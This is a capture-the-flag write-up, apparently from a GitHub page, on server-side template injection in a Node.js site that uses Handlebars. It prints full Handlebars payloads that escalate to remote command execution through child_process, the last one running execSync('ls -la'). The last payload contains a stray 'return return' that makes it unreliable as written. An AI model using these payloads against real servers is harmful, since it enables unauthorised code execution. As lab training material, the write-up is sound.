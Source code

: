 # 1. Enumeration

- The first step í to scan the target IP with nmap to check what ports are open.

![img.png](img/img.png)


# 2. Website Enumeration

- Upon visting port 8, we are presented with a webpage that is currently under construction and the option to subscribe
to updates about the page using an email address.
- Let's provide a test email to verify we have working application:

![img_1.png](img/img_1.png)

- Looks like it just reflected back what the user inputted. This could lead us down a trail of thinking about various
potential exploitation vectors like XSS or SSTI.
- `Server Side Template Injection` is an exploitation technique where the attacker injects native code
  (to the Template Engine) into the web page. The code is then run via the Template Engine and the attacker gains
code execution on the affected server.

# 3. Identification

- In order to exploit a potential SSTI vulnerability we will need to first confirm its existence. 
- This <a href ="https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection">article</a>
provide a simple, straightforward approach of SSTI for various template engines:

![img_2.png](img/img_2.png)

- To test for the vulnerability, lets try inputting `{{7*7}}` into the form. After the payload is submitted, an error
page pops up:

![img_3.png](img/img_3.png)

- This means tha the payload was indeed detected as valid by the template engine, however it raised some errors and being 
unable to execute. In this case, we can see that the server is running from the `/root/Backend` directory and the
`Handlebars` Template Engine is being used.

# 4. Exploitation

- Looking back at Hacktricks, we can see that both Handlebars and Node.js are mentioned, as well as payload that can be
used to potentially run commands on a Handlebars SSTI:
```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

- It also mentioned that this should be URL encoded before sending:

![img_4.png](img/img_4.png)

- The response shows an error that states: `require is not defined`. So the payload indeed is being run, but `require`
can not be found, so it throws an error.

# 5. Global

- `Global Objects` are variables that are globally accessible throughout all loaded modules. It is worth noting that
the <a href ="https://nodejs.org/api/globals.html#global-objects">documentation</a> also showcases a list of variables
that appear to be global objects, but in fact are built-in objects. These are the following:
```
__dirname
__filename
exports
module
require()
```

- As can be seen, `require` is in fact not in the global scope and therefore in specific cases it might not be 
accessible. Take a closer look at the documentation, we see that there is a <a href ="https://nodejs.org/api/process.html#process">process</a>
object. It states that this object provides information about, and control over, the current Node.js process.
We might be able to use this object to load a module. Let's modify our payload:
```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process;"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

- URL-encode and send it:

![img_5.png](img/img_5.png)

- Okay, we're getting something. The response dit not contain an error, which mean the process object is available.
- Final payload:
```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return return process.mainModule.require('child_process').execSync('ls -la');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

![img_6.png](img/img_6.png)

- Flag is under `/root/flag.txt`:

![img_7.png](img/img_7.png)